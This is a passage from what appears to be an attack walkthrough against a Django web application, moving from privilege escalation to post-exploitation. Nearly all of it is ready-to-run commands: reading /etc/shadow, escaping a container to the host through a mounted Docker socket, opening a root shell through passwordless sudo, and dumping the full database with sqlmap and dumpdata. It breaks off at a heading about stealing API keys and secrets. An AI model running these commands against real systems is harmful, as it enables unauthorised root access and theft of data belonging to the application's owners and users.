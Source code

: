 **Method 1: Escape Docker Container (if running in Docker)**

```bash
# Inside Django shell or via RCE
python manage.py shell

import os
os.system('ls -la /')
os.system('cat /etc/shadow')  # Check if running as root in container

# Check for Docker socket mount (common misconfiguration)
os.system('ls -la /var/run/docker.sock')

# If docker.sock is mounted, escape to host:
os.system('docker run -v /:/mnt --rm -it alpine chroot /mnt sh')
```

**Method 2: Exploit Sudo Misconfigurations**

```bash
# Check sudo privileges
python -c "import os; os.system('sudo -l')"

# If Django user has sudo rights without password:
python -c "import os; os.system('sudo /bin/bash')"
```

**Method 3: Kernel Exploit (if outdated kernel)**

```bash
# Check kernel version
import platform
print(platform.uname())

# Download and compile kernel exploit
# (This would require write access to filesystem)
```

---

## 6. Post-Exploitation

### 6.1 Data Exfiltration

**Extract Database:**

```bash
# From SQL injection access
python sqlmap/sqlmap.py -u "http://localhost:8000/api/v1/projects?field=id" \
  -D reopt_db --dump-all --batch

# Or if you have Django admin access
python manage.py dumpdata > database_dump.json
```

**Steal API Keys and Secrets:**
